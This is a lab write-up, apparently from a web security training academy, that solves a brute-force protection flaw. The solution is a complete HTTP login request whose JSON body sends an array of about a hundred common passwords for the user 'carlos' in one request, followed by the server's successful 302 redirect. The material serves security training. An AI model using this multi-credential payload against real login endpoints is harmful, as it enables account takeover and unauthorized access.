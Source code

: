# Lab: Broken brute-force protection, multiple credentials per request

## Lab Description

This lab is vulnerable due to a logic flaw in its brute-force protection. To solve the lab, brute-force Carlos's password, then access his account page.

Victim's username: carlos

## Lab Solution

**HTTP Request**

```
POST /login HTTP/1.1
Host: 0abd00a704b3783b804b44ac001f00f7.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0abd00a704b3783b804b44ac001f00f7.web-security-academy.net/login
Content-Type: application/json
Origin: https://0abd00a704b3783b804b44ac001f00f7.web-security-academy.net
Connection: keep-alive
Cookie: session=CFJN2Y3ux118fuh6aLqqvHIgzKURff3v
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
DNT: 1
Sec-GPC: 1
Content-Length: 993

{"username" : "carlos", "password" : ["123456", "password","12345678","qwerty","123456789","12345","1234","111111","1234567","dragon","123123","baseball","abc123","football","monkey","letmein","shadow","master","666666","qwertyuiop","123321","mustang","1234567890","michael","654321","superman","1qaz2wsx","7777777","121212","000000","qazwsx","123qwe","killer","trustno1","jordan","jennifer","zxcvbnm","asdfgh","hunter","buster","soccer","harley","batman","andrew","tigger","sunshine","iloveyou","2000","charlie","robert","thomas","hockey","ranger","daniel","starwars","klaster","112233","george","computer","michelle","jessica","pepper","1111","zxcvbn","555555","11111111","131313","freedom","777777","pass","maggie","159753","aaaaaa","ginger","princess","joshua","cheese","amanda","summer","love","ashley","nicole","chelsea","biteme","matthew","access","yankees","987654321","dallas","austin","thunder","taylor","matrix","mobilemail","mom","monitor","monitoring","montana","moon","moscow"]}

```

**HTTP Response 302 Found Redirect**

```
HTTP/1.1 302 Found
Location: /my-account?id=carlos
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 0
Set-Cookie: session=G7q9BJS56LxbjznfpeIVPI6qWP1Z1moN; Secure; HttpOnly; SameSite=None


```
